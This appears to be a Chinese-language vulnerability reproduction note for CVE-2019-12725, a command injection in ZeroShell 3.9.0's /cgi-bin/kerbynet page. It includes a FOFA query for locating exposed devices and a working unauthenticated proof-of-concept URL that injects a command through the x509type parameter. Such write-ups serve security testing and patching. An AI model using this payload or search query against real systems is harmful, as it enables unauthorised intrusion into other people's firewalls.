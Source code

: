 # ZeroShell-3.9.0-远程命令执行漏洞-CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

> [!NOTE]
>
> ZeroShell < 3.9.0

## FOFA

> [!NOTE]
>
> app="Zeroshell-防火墙"

## 漏洞复现

登录页面如下

![](ZeroShell-3.9.0-远程命令执行漏洞-CVE-2019-12725.assets/16273636237306979.jpg)

验证的POC为

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```

![](ZeroShell-3.9.0-远程命令执行漏洞-CVE-2019-12725.assets/16273636240055969.jpg)